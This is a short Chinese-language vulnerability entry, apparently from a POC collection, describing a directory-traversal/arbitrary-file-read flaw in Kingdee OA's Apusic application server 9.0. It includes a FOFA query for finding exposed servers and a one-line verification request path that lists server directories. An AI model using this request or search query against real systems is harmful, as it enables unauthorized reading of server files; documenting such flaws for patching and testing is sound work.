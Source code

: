 # 金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞

## 漏洞描述

金蝶OA Apusic应用服务器(中间件) 存在任意文件读取漏洞，攻击者通过漏洞可以获取目录下的文件信息

## 漏洞影响

<a-checkbox checked>金蝶OA 9.0 Apusic应用服务器(中间件) </a-checkbox></br>

## FOFA

<a-checkbox checked>app="Apusic-公司产品" && title=="欢迎使用Apusic应用服务器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1629466520262-6fed551f-2c99-4966-82df-a2c5550a216d.png)

验证POC

```bash
/admin/protected/selector/server_file/files?folder=/
```

![img](../../../.vuepress/public/img/1629466554121-8f3d039e-9243-42c1-bd3e-65cdbba62569.png)